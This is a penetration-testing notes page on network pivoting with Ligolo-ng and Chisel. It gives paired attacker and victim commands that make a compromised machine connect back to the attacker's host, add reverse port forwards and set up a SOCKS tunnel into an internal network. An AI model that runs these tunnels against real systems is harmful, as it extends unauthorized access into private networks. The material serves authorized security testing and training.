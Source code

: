 ```yaml
---
label: Network Tunneling
subLabel: (Ligolo-ng, Chisel)
---
```


# Network Tunneling

It is often the case that after compromising one externally visible machine, we want to continue the attack on the internal network. Only the compromised machine has access to the internal network. So we need to somehow route outbound traffic from our system (e.g. Kali Linux) through the compromised machine. There are several ways and offensive tools to set up a TCP/UDP tunnel.

There are different methods of tunneling. The most popular are: TCP over TCP+TLS, TCP over HTTP, TCP over SSH. The idea is to pack standard TCP packets into some other protocol, usually a higher layer, and send them that way to the compromised machine. There is an tunnel client / agent running on a compromised machine so that it can unpack the tunneled packets to standard TCP and send them to the network interface. After this process, our TCP packets can find their way from the compromised machine to the internal network.

Example path:

```plaintext
(attacker)     TCP tunnel   (tunnel client)      TCP
  LINUX  -------------------> COMPROMISED ----------------> INTERNAL
 MACHINE       over HTTP        MACHINE                     NETWORK
```

## Ligolo-ng (TCP over TCP+TLS)

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) is a simple tool to establish tunnels using TUN interface on Linux. It's basically a custom virtual network interface that translates all packets and sends it to the remote agent. On the other side of the tunnel, the agent unpacks the packets. The tool uses TCP over TCP+TLS tunneling.

> **IMPORTANT**: Download Ligolo binaries (proxy and agent) from [GitHub](https://github.com/nicocha30/ligolo-ng). Be careful not to download the “alpha” version of Ligolo binary. These versions are unstable and often don't work.

Since tunneling has been implemented at the network interface level, **the established tunnel is completely transparent from the attacker's point of view. It does not require any additional configuration of the offensive tooling used during the engagement**.

Attacker:

```bash
# Run Ligolo proxy server (with auto-configured TLS certificate)
sudo ./proxy -autocert

# Create Ligolo network interface
> interface_create --name ligolo

# Check network interfaces
ip a
```

Victim:

```bash
# Connect back to Ligolo server
# Check Ligolo port from proxy output
./agent -connect $attacker_ip:$ligolo_port
```

Attacker:

```bash
# Show active sessions and select one
> session

# Start tunnel
> tunnel_start --tun ligolo

# Setup routing table (might not be necessary)
> route_add --name ligolo --route $target_ip/$mask

# Check routing table
> route_list 
```

> **NOTE**: In case of problems with certificate validation use `-ignore-cert` flag with agent and `-selfcert` with proxy. It's not secure but might help.

Now, whatever the attacker executes on his Linux will be transmitted to the victim and come out the other side of the tunnel. Without using any additional tooling.

> **How to access to `127.0.0.1` of the victim's machine?** Ligolo creates a special fake IP address `240.0.0.1` that basically means `127.0.0.1` of the victim's machine. Add routing: `interface_add_route --name ligolo --route 240.0.0.0/24`. Executing `nmap 240.0.0.1` on the attacker's machine is equal to executing `nmap 127.0.0.1` on the victim's machine.

### Ligolo port forwarding

Ligolo also makes it very easy to set up port forwarding from the victim's machine port to the attacker's machine port. It doesn't require any configuration on the victim's machine.

Attacker (Ligolo CLI):

```bash
# Setup port-forwarding
> listener_add --addr 0.0.0.0:$victim_port --to 127.0.0.1:$attacker_port --tcp

# Example
> listener_add --addr 0.0.0.0:3000 --to 127.0.0.1:9000 --tcp
```

Now the victim's port is forwarded to the attacker's port. Accessing `127.0.0.1:9000` on the attacker's machine is equal to accessing `127.0.0.1:3000` on the victim's machine and vice versa.

## Chisel (TCP over HTTP)

[Chisel](https://github.com/jpillora/chisel) is a tool to establish a TCP/UDP tunnel over HTTP. Allows you to do a simple port forwarding and establish a SOCKS tunnel.

### Simple port forwarding

Attacker:

```bash
# Run Chisel server listening on port
chisel server --reverse --port $srv_port
```

Victim:

```bash
# Bind a socket to attacker's port
chisel client $srv_ip:$srv_port R:$attacker_port:$remote_ip:$remote_ip
```

After that using `http://localhost:$attacker_port` an attacker (from its local machine) is accessing a socket defined on the client side of the tunnel.

### SOCKS tunnel

SOCKS tunnel mostly requires the use of `proxychains` tool. At the same time it provides more flexibility because it allows access to any host and port without any additional configuration on the client side. Something for something...

Attacker:

```bash
# Run Chisel server listening on port
chisel server --reverse --port $srv_port
```

Victim:

```bash
chisel client $srv_ip:$srv_port R:$attacker_port:socks
```

In order to use the established tunnel packets must be translated to SOCKS. All tools that do not natively support the SOCKS protocol must be passed through a `proxychains` tool. The port used for the SOCKS tunnel must be set in the config file: `/etc/proxychains4.conf`. This is the `$attacker_port` from the snippet above.

```bash
# Example usage: all ffuf requests are transmitted via SOCKS tunnel
proxychains ffuf [...]
```

## C2 Frameworks

Many C2 frameworks have already built-in fancy tunneling and port-forwarding capabilities. Take a look at the documentation of the C2 framework you are using.

